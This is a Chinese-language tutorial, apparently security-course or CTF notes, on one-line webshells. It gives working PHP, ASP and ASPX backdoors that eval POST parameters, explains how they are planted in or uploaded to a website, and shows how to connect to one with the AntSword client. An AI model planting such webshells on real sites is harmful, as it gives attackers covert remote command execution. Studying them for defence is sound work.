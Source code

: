 #### <font style="color:rgb(79, 79, 79);">入侵条件：</font>
<font style="color:rgb(77, 77, 77);">其中，只要攻击者满足三个条件，就能实现成功入侵：</font>

```plain
木马上传成功，未被杀；
知道木马的路径在哪；
上传的木马能正常运行。
```

#### <font style="color:rgb(79, 79, 79);">常见形式：</font>
<font style="color:rgb(77, 77, 77);">常见的一句话木马：</font>

```plain
php的一句话木马： <?php @eval($_POST['pass']);?>
asp的一句话是：   <%eval request ("pass")%>
aspx的一句话是：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```

<font style="color:rgb(77, 77, 77);">我们可以直接将这些语句插入到网站上的某个asp/aspx/php文件上，或者直接创建一个新的文件，在里面写入这些语句，然后把文件上传到网站上即可。</font>

#### <font style="color:rgb(79, 79, 79);">基本原理：</font>
<font style="color:rgb(77, 77, 77);">首先我们先看一个原始而又简单的php一句话木马：</font>

```plain
   <?php @eval($_POST['cmd']); ?>
```

<font style="color:rgb(77, 77, 77);">这是php的一句话后门中最普遍的一种。它的工作原理是：</font>  
<font style="color:rgb(77, 77, 77);">首先存在一个名为'cmd'的变量，'cmd'的取值为HTTP的POST方式。Web服务器对'cmd'取值以后，然后通过eval()函数执行'cmd'里面的内容。</font>

### <font style="color:rgb(77, 77, 77);">关于中国蚁剑的安装与使用：</font>
#### 安装：
安装过程可以参考[链接](https://blog.csdn.net/qq_60450539/article/details/138398460?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522080FB7DF-06C1-4710-A677-B0E2634E2829%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=080FB7DF-06C1-4710-A677-B0E2634E2829&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-138398460-null-null.142^v100^pc_search_result_base7&utm_term=%E4%B8%AD%E5%9B%BD%E8%9A%81%E5%89%91%E5%AE%89%E8%A3%85%E6%95%99%E7%A8%8B&spm=1018.2226.3001.4187)

#### 使用：
进入中国蚁剑首页 在空白处右键点击添加数据

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731405840127-a03dd4ec-39d1-4ebb-a090-ae0cef1569df.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731405892899-e6f4a6a1-2333-4cbb-9d78-b6f16267cec1.png)

输入相应的网址及webshell的位置 例如题目中的

```plain
url/uploads/eval.php
```
